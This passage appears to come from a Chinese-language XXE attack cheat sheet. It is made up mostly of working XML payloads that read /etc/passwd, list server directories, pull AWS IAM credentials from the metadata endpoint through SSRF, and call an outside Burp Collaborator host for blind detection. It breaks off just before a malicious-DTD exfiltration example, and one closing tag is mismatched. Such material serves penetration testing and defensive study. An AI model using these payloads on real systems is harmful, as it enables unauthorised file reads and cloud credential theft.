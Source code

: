 ```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>&file;</productId>
    <storeId>1</storeId>
</stockCheck3>
```

![img](https://raw.githubusercontent.com/shungli923/PicGoImg/master/assets%252F-L_2uGJGU7AVNRcqRvEi%252F-M5JwHs_b8OcUEBCgAQt%252F-M5MTyV_BaEf3xx_6zUc%252Fimage.png)

### 读取目录

在java的应用程序中，可以通过XXE列出目录的内容，payload如下：

```xml-dtd
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>
```

### SSRF

通过XXE进行SSRF攻击，payload如下：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### Blind SSRF

当外部实体不能使用时，也许可以试试XML参数实体，payload如下：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

### Blind SSRF 带出敏感数据

在这种情况下，让服务器加载一个带有恶意负载的新DTD，该恶意负载将通过HTTP请求发送文件的内容（对于多行文件，您可以尝试通过ftp://对其进行过滤）。

恶意DTD拿到 /etc/hostname 文件内容的示例如下：
